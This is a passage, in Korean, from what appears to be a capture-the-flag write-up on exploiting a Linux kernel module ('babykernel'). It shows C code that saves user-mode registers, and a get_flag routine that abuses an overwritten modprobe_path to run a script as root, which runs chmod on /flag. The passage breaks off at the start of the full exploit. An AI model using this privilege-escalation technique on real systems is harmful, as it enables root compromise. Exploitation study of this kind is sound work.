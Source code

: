 이때 usermode 에서 저장해 놓았던 `cs`, `rflags`, `rsp`, `ss`를 지정해줘야하는데, 그것은 다음과 같은 코드로 수행이 가능하다. 

```c
uint64_t user_cs;
uint64_t user_ss;
uint64_t user_sp;
uint64_t user_rflags;

void save_state()
{
    __asm__ __volatile__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
}
```

마지막으로 돌아가야 할 곳인 `rip`의 값은 실제 권한을 상승하고 flag 의 권한을 변경시킬 `get_flag` 함수로 지정하자.

## **7. Use overwrited modprobe_path**

이제 `get_flag`에서 어떻게 플래그를 읽을지 정해주자. `modprobe_path` 포스트에서 썼던 방법대로 `/tmp/trigger` 에 `\xff\xff\xff\xff` 를 쓰고 이를 실행할 것이다. 

그러면 `modprobe_path`에 지정되어있는 프로그램 로더를 사용하여 해당 파일을 실행하려고 할 것이나, 우리는 이미 `modprobe_path` 를 `/tmp/x` 로 덮어썼으니 `/tmp/x` 가 실행될 것이다. 

그럼 우리는 그 전에 미리 `/tmp/x`에 실제 flag의 권한을 변경시키는 코드를 넣으면 된다. 

```c
void get_flag()
{
    char *const argv[] = {"/tmp/trigger", NULL};
    char *const envp[] = {NULL};
    system("printf \"#!/bin/sh\\nchmod 777 /flag\" > /tmp/x");
    system("chmod +x /tmp/x");
    system("printf \"\\xff\\xff\\xff\\xff\" > /tmp/trigger");
    system("chmod +x /tmp/trigger");
    system("/tmp/trigger");
    system("cat flag");
}
```

## **Conclusion**

이제 완성된 익스플로잇 코드를 보자.

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdint.h>
#include <string.h>

#define DEVICE_PATH "/dev/babykernel"
#define LEAK_COMMIT_CREDS 0x1001
#define LEAK_MODULE_OFFSET 0x1002
#define JUMP_POINTER 0x1003

```
